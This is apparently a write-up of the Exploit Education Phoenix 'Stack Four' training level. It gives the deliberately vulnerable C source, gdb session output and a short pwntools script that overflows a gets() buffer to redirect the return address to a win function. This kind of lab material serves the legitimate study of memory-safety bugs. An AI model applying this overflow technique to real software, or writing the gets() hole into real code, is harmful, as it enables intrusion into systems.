```yaml
---
title: "Stack Four"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The goal of this level is to overwrite the return address of **start_level** function to return to **complete_level** function instead of **main**.

First we get the address of **complete_level** function:

```
$ gdb -q /opt/phoenix/amd64/stack-four
Reading symbols from /opt/phoenix/amd64/stack-four...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40061d <complete_level>
```

So we must overwrite **RIP** with the address  **0x40061d**.

```
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   .....
```

So to overwrite **RIP** we must enter (0x50 junk + 8 bytes for RBP + address of **complete_level**).

```
gef➤  b *0x0000000000400649
Breakpoint 1 at 0x400649

gef➤  r <<< $(python solve.py)
Starting program: /opt/phoenix/amd64/stack-four <<< $(python solve.py)
Welcome to phoenix/stack-four, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400649 in start_level ()
......

gef➤  info registers rbp
rbp            0x7fffffffe630      0x7fffffffe630

gef➤  x/12xg $rsp
0x7fffffffe5e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe600:	0x4141414141414141	0x4141414141414141
0x7fffffffe610:	0x4141414141414141	0x4141414141414141
0x7fffffffe620:	0x4141414141414141	0x4141414141414141
0x7fffffffe630:	0x4242424242424242	0x000000000040061d
```

Here we can see that **RBP** was overwritten to  0x4242424242424242 and after it is the value of **RIP** 0x000000000040061d which is the address of **complete_level** function.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*80			# junk
buff += 'BBBBBBBB'		# RBP value
buff += p64(0x40061d)		# RIP value

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```